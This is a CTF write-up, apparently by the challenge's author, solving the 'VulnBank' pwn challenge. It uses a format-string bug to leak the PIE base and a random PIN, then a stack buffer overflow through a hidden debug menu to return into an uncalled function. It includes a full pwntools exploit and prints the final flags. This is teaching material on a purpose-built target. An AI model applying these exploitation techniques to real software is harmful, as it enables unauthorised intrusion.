





# VulnBank

## Description

> Bank security is serious business, and we get that.
>
> We're so dedicated to security that we put "Vuln" right there in our name. It's a bold statement of our commitment to transparency, customer trust, and the occasional memory corruption incident.

## Solution

I wasn't planning to make this challenge, but I heard there was a lack of pwn challenges and every CTF needs a buffer overflow 😸 Like [Snorex CCTV](https://book.cryptocat.me/blog/ctf/2025/nahamcon-winter/pwn/snorex_cctv), I wanted it to be reasonably easy due to the time constraints (dev/test time and competition duration) and the expected audience (web-leaning).

### Basic File Checks

Checking the binary protections, we'll see:

-   **Stripped** (harder to reverse)
-   **Full RELRO** (can't overwrite GOT)
-   **No canary** (stack overflow possible)
-   **PIE enabled** (might need leak)

```bash
file vulnbank; checksec --file vulnbank

vulnbank: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=97f05908fa4be2a289717d0e8860851af4556db1, for GNU/Linux 3.2.0, stripped

[*] '/home/crystal/Desktop/nahamcon-2025/Binary/vuln_bank/solution/vulnbank'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

If we run the binary, it asks for a pin number.

```bash
./vulnbank

================================================================
=                                                              =
=                        V U L N B A N K                       =
=                                                              =
=                    "Because bugs need banks"                 =
=                                                              =
================================================================
                             _________
                            / _______ \
                           / / _____ \ \
                          / / /     \ \ \
                         / / /  VBNK \ \ \
                        / / /_________\ \ \
                       /_/_____________\_\_\
                         |  [ 0 ] [ 1 ]  |
                         |  [ 2 ] [ 3 ]  |
                         |  [ 4 ] [ 5 ]  |
                         |  [ 6 ] [ 7 ]  |
                         |  [ 8 ] [ 9 ]  |
                         |_______________|

Please insert your card into the VulnBank terminal...
Card detected. Reading chip...

================================================================
                       VULNBANK SECURE LOGIN
================================================================
This terminal uses a 6 digit PIN for access.
Repeated failed attempts may cause your card to be retained.

Enter 6 digit PIN: 420420
420420
Incorrect PIN.
```

We get three attempts before the connection closes.

```bash
Enter 6 digit PIN: 696969
696969
Incorrect PIN.

Enter 6 digit PIN: meow
meow
Incorrect PIN.

Too many incorrect attempts.
Your card has been retained by this VulnBank terminal.
Please contact support.
```

### Static Analysis

Opening the binary in Ghidra, we'll find all the function names etc are stripped.



It's best to go through and rename them according to their behaviour. I'll also rename some variables along the way (for speed during the event, I recommend using an LLM for this).



We could search for "flag" to find the locations of the two flags and trace our way backwards.



We'll see that the the first flag is printed in the `authenticate` function, when we enter to correct PIN number.

```c
pin_try = atoi(input); // get pin
if ((pin_try == pin) && (attempts != 0)) { // check pin
	flag = getenv("FLAG1");
	if (flag == (char *)0x0 || *flag == '\0') flag = "flag{now_repeat_against_remote_server}";
	printf("Authentication flag: %s\n", flag); // give flag
}
```

This is where our first vulnerability comes in.

### Format String Leak

Our input (the PIN) is passed to `printf` without a [format specifier](https://www.geeksforgeeks.org/c/format-specifiers-in-c/), allowing us to hijack it to leak values from the stack (or even [perform write operations](https://www.youtube.com/watch?v=NOY_dc2fRbU)).

We can use this to leak:

-   PIE (well, calculate it)
-   The PIN number

We need to do it in that order, because the PIN isn't loaded onto the stack until we make our first attempt 😼

```c
if (!pin_ready) {
  printf(input); // format string, PIN not generated yet
  pin = gen_pin(); // PIN created after first printf
  pin_ready = 1;
}
```

Let's start by calculating PIE.

#### Leaking PIE

```python
from pwn import *

exe = "./vulnbank"
context.binary = ELF(exe, checksec=False)
context.log_level = "error"

def dump_pos(p, n=42):
    p.recvuntil(b"PIN:")
    payload = b" ".join([f"%{i}$p".encode() for i in range(1, n + 1)])
    p.sendline(payload)
    line = p.recvline().strip()

    parts = line.split()
    for i, v in enumerate(parts, 1):
        print(f"[{i:2}] {v.decode(errors='ignore')}")

io = process(exe)
dump_pos(io, 25)
io.interactive()
```

We want to find a reliable address, i.e. one that stays at the same offset each run, and always has static offset from the base of the binary.

```bash
python 1_fuzz_pie.py

[ 1] 0x7f12cab5cb03
[ 2] 0x7ffff1f37760
[ 3] 0x7ffff1f37760
[ 4] 0x1
[ 5] (nil)
[ 6] 0x2432252070243125
[ 7] 0x2520702433252070
[ 8] 0x7024352520702434
[ 9] 0x3725207024362520
[10] 0x2070243825207024
[11] 0x3031252070243925
[12] 0x7024313125207024
[13] 0x2520702432312520
[14] 0x3431252070243331
[15] 0x7024353125207024
[16] 0x2520702436312520
[17] 0x3831252070243731
[18] 0x7024393125207024
[19] 0x2520702430322520
[20] 0x3232252070243132
[21] 0x7024333225207024
[22] 0x2520702434322520
[23] 0x70243532
[24] 0xa
[25] 0x56021ab434c9
Incorrect PIN.

Enter 6 digit PIN: $
```

While the process is still running, attach GDB.

```bash
ps aux | grep vuln
gdb-pwndbg
attach 538762
```

Now just check the addresses, bearing in mind many indexes can be rules out, e.g.

-   Raw values (6-22 are ASCII)
-   0x7f range are outside the range (good for libc targets though)

So, we try index 25. In GDB, get the piebase and then subtract it from the leaked values.

```bash
x 0x56021ab434c9 - 0x56021ab41000

0x24c9:	Cannot access memory at address 0x24c9
```

Alright, so our leak is 0x24c9 bytes away from the base of the binary. If we subtract that offset, we can calculate the offset to any function we like. In fact, we can update the binary address in our pwntools script and reference it too. That's more useful if it wasn't stripped as we could access functions directly. Anyway, we just need to repeat this a few times to ensure it's stable, then note it down for later.

#### Leaking the PIN

We can repeat this process, but we are looking for a decimal so use the `%d` format specifier. We also need to enter an invalid entry to begin with, as the PIN has not yet been loaded onto the stack.

```python
from pwn import *

exe = "./vulnbank"
context.binary = ELF(exe, checksec=False)
context.log_level = "error"

def dump_pos(p, n=42):
    p.recvuntil(b"PIN:")
    p.sendline(b'420420')
    p.recvuntil(b'PIN:')
    payload = b" ".join([f"%{i}$d".encode() for i in range(1, n + 1)])
    p.sendline(payload)
    line = p.recvline().strip()

    parts = line.split()
    for i, v in enumerate(parts, 1):
        print(f"[{i:2}] {v.decode(errors='ignore')}")

io = process(exe)
dump_pos(io, 10)
```

We are looking to a six digit value, so index 1 and 2 both fit the description. We could setup a breakpoint and check the comparison, or just test it out.

```bash
python 2_fuzz_pin.py

[ 1] 836727
[ 2] 836727
[ 3] 1852916288
[ 4] 1
[ 5] 0
[ 6] 1680093477
[ 7] 858071140
[ 8] 543433780
[ 9] 607528224
[10] 622879780
```

### Authentication

Putting that all together, we should be able to login. Let's test it, we don't even need a debugger.

```bash
./vulnbank
================================================================
=                                                              =
=                        V U L N B A N K                       =
=                                                              =
=                    "Because bugs need banks"                 =
=                                                              =
================================================================
                             _________
                            / _______ \
                           / / _____ \ \
                          / / /     \ \ \
                         / / /  VBNK \ \ \
                        / / /_________\ \ \
                       /_/_____________\_\_\
                         |  [ 0 ] [ 1 ]  |
                         |  [ 2 ] [ 3 ]  |
                         |  [ 4 ] [ 5 ]  |
                         |  [ 6 ] [ 7 ]  |
                         |  [ 8 ] [ 9 ]  |
                         |_______________|

Please insert your card into the VulnBank terminal...
Card detected. Reading chip...

================================================================
                       VULNBANK SECURE LOGIN
================================================================
This terminal uses a 6 digit PIN for access.
Repeated failed attempts may cause your card to be retained.

Enter 6 digit PIN: 420420
420420
Incorrect PIN.

Enter 6 digit PIN: %d
143658
Incorrect PIN.

Enter 6 digit PIN: 143658
143658

Welcome back, VulnBank customer #143658.

Authentication flag: flag{now_repeat_against_remote_server}

================================================================
                         VULNBANK MAIN MENU
================================================================
Your balance, your choices, our slightly buzzing hardware.

Current available balance: £1337

  [1] View balance
  [2] Deposit cash
  [3] Withdraw cash
  [4] View recent activity
  [9] Eject card and exit

Select option:
```

We've got the first flag, let's see where the second is (Ghidra string search again).

```c
void maintenance_mode(void)

{
  char *flag;

  puts("");
  puts("================================================================");
  puts("                     VULNBANK MAINTENANCE MODE                  ");
  puts("================================================================");
  puts("Technician override accepted.");
  puts("Bypassing customer safeguards, draining internal reserves...");
  puts("");
  flag = getenv("FLAG2");
  if ((flag == (char *)0x0) || (*flag == '\0')) {
    flag = "flag{now_repeat_against_remote_server}";
  }
  puts(flag);
  puts("");
  puts("All internal cash reserves have been transferred to this session.");
  puts("This incident will definitely not be logged. Probably.");
  exit(0);
}
```

It's in the maintenance function, the problem? That function is never called.



How can we redirect the flow of execution?

### Stack Buffer Overflow

We already saw the menu options after authenticating:

```bash
[1] View balance
[2] Deposit cash
[3] Withdraw cash
[4] View recent activity
[9] Eject card and exit
```

However, there is another function which doesn't show! We can see this option in the `menu`, I called it `debug_panel` and we can trigger it with the option "0".

```c
choice = atoi(input);
if (choice == 0) debug_panel(); // hidden menu option
```

Here we can enter some input.

```bash
Select option: 0

================================================================
                     VULNBANK SERVICE TERMINAL
================================================================
Service channel open.
Processing maintenance request from keypad interface.

maintenance>
```

Taking a look at that function, we'll see it has a 72-byte buffer, but reads in 128 bytes 😱

```c
char buffer[72]; // 72-byte buffer
read(0, buffer, 128); // 128-byte read
```

If we overflow that variable, we can overwrite other things on the stack, like variable **and the saved return address**. Since there's no stack canaries, that would allow us to jump to any address of our choice with ease, e.g. the `maintenance_mode` function (let's call it "win" - we're going to "return2win").

#### Calculating the Offset

We can do this manually, with pwntools, with GDB etc. I normally use the `cyclic` pattern from pwntools (accessible with pwndbg), e.g.

```bash
cyclic 420

aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaazaaaaaabbaaaaaabcaaaaaabdaaaaaabeaaaaaabfaaaaaabgaaaaaabhaaaaaabiaaaaaabjaaaaaabkaaaaaablaaaaaabmaaaaaabnaaaaaaboaaaaaabpaaaaaabqaaaaaabraaaaaabsaaaaaabtaaaaaabuaaaaaabvaaaaaabwaaaaaabxaaaaaabyaaaaaabzaaaaaacbaaaaaacca
```

Attach to the process again in pwndbg, then submit the payload in maintenance mode. We'll see the program crash:



The string in the RSP is not a valid memory address, hence it crashed before reaching the RIP. We can now look up the offset of that string in the cyclic pattern.

```bash
cyclic -l laaaaaaa

Finding cyclic pattern of 8 bytes: b'laaaaaaa' (hex: 0x6c61616161616161)
Found at offset 88
```

It's 88, so that's how many bytes we need to send before we will have control of the RIP. At that point, we'll write the address of the `maintenance_mode` function. For this, we need to use the address leak as we only know the offset of the function (`0x1575`). Let's chain it all together into a nice PoC 😼

### PoC

```python
from pwn import *
import sys

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Set up pwntools for the correct architecture
exe = './vulnbank'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)

# Format string indices (found via fuzzing)
code_idx = 25   # stack index that leaks a code pointer (PIE)
pin_idx = 1     # first vararg = PIN on attempt 2+

# Offset to RIP in debug_console() overflow (found with cyclic/cyclic_find)
offset = 88

# leaked_addr minus PIE base
pie_leak_offset = 0x24c9

# Offset of maintenance() from PIE base (from nm/objdump on unstripped binary)
maintenance_offset = 0x1575

# Start process (local/GDB/remote)
io = start()

# -----------------------------
# Stage 1: Leak PIE base
# -----------------------------

# First PIN prompt: send format string to leak a code pointer (main/login frame)
io.sendlineafter(b'PIN:', '%{}$p'.format(code_idx).encode())

# Parse leaked address and compute PIE base
leak_line = io.recvline().strip().split()[0]
leaked_addr = int(leak_line, 16)
info('Leaked code pointer: %#x', leaked_addr)

piebase = leaked_addr - pie_leak_offset
info('Calculated PIE base: %#x', piebase)

# -----------------------------
# Stage 2: Leak the random PIN
# -----------------------------

# Second PIN prompt: format string again, this time reading the PIN as decimal
fmt_payload = '%{}$d'.format(pin_idx).encode()
io.sendlineafter(b'PIN:', fmt_payload)

pin_line = io.recvline().strip().split()[0]
pin_val = int(pin_line)
success('Leaked PIN: %06d' % pin_val)

# -----------------------------
# Stage 3: Log in using the PIN
# -----------------------------

# Third PIN prompt: send the correct numeric PIN
io.sendlineafter(b'PIN:', str(pin_val).encode())

# Capture and print FLAG 1 from the login path
io.recvuntil(b'Authentication flag: ')
flag1 = io.recvline().strip().decode()
success('FLAG 1: %s' % flag1)

# We are now inside the ATM main menu
io.recvuntil(b'VULNBANK MAIN MENU')
info('Successfully logged in, entered ATM menu')

# -----------------------------
# Stage 4: Hidden debug option
# -----------------------------

# Send hidden option 0 to open the debug console
io.sendlineafter(b'Select option:', b'0')
info('Triggering hidden debug mode (menu option 0)')

# Calculate absolute address of maintenance()
maintenance_addr = piebase + maintenance_offset
info('Calculated maintenance() address: %#x', maintenance_addr)

# -----------------------------
# Stage 5: Overflow RIP → maintenance
# -----------------------------

# Build payload: padding up to RIP, then address of maintenance()
payload = flat({offset: pack(maintenance_addr)})
info('Sending overflow payload to overwrite RIP')
io.sendline(payload)

# Capture and print FLAG 2 from maintenance()
io.recvuntil(b'...\n\n')
flag2 = io.recvline().strip().decode()
success('FLAG 2: %s' % flag2)

# Clean exit
io.close()
```

```bash
python remote_exploit.py REMOTE 127.0.0.1 1337

[+] Opening connection to 127.0.0.1 on port 1337: Done
[*] Leaked code pointer: 0x564c271094c9
[*] Calculated PIE base: 0x564c27107000
[+] Leaked PIN: 421882
[+] FLAG 1: flag{firs7_y0u_s734l_7h3_pin}
[*] Successfully logged in, entered ATM menu
[*] Triggering hidden debug mode (menu option 0)
[*] Calculated maintenance() address: 0x564c27108575
[*] Sending overflow payload to overwrite RIP
[+] FLAG 2: flag{7h3n_y0u_s734l_7h3_b4nk}
[*] Closed connection to 127.0.0.1 port 1337
```

Flag 1: `flag{firs7_y0u_s734l_7h3_pin}`
Flag 2: `flag{7h3n_y0u_s734l_7h3_b4nk}`
